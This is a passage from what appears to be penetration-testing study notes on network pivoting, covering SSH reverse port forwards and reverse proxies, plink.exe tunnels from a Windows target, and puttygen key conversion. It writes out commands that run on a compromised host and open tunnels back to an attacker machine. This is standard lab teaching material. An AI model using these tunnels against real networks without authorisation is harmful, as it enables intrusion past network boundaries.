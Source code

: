 To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:`ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN`

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

---

## 5.0 plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client. Now that Windows comes with its own inbuilt SSH client, plink is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.

Generally speaking, Windows servers are unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:

```bash
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

The `cmd.exe /c echo y` at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise), in order to get around the warning message that the target has not connected to this host before.

To use our example from before, if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this command:

```bash
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

## 5.1 puttygen

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`.

After downloading the tool, conversion can be done with:

```bash
puttygen KEYFILE -o OUTPUT_KEY.ppk
```

On kali found at : /usr/share/windows-resources/binaries/plink.exe

---